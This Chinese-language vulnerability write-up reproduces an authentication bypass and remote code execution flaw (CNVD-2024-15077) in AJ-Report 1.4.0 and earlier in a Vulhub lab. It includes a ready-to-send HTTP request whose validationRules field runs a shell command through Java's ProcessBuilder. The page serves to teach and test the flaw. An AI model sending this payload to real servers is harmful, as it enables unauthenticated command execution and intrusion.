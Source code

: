 # AJ-Report 认证绕过与远程代码执行漏洞 CNVD-2024-15077

## 漏洞描述

AJ-Report 是全开源的一个 BI 平台。在其 1.4.0 版本及以前，存在一处认证绕过漏洞，攻击者利用该漏洞可以绕过权限校验并执行任意代码。

参考链接：

- https://xz.aliyun.com/t/14460
- https://gitee.com/anji-plus/report/issues/I9HCB2
- https://github.com/wy876/POC/blob/main/AJ-Report%E5%BC%80%E6%BA%90%E6%95%B0%E6%8D%AE%E5%A4%A7%E5%B1%8F%E5%AD%98%E5%9C%A8%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md

## 漏洞影响

```
version < v1.4.0
```

## 网络测绘

```
title="AJ-Report"
```

## 环境搭建

Vulhub 执行如下命令启动一个 AJ-Report 1.4.0 服务器：

```
docker compose up -d
```

服务启动后，可以在`http://your-ip:9095`查看到登录页面。

![](images/AJ-Report%20认证绕过与远程代码执行漏洞%20CNVD-2024-15077/image-20240527181756088.png)

## 漏洞复现

发送如下数据包：

```
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: your-vps-ip:9095
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en
Content-Type: application/json;charset=UTF-8
Connection: close
Content-Length: 339

{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"id\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}
```

可见，`id` 命令已经执行成功：

![](images/AJ-Report%20认证绕过与远程代码执行漏洞%20CNVD-2024-15077/image-20240527181914943.png)
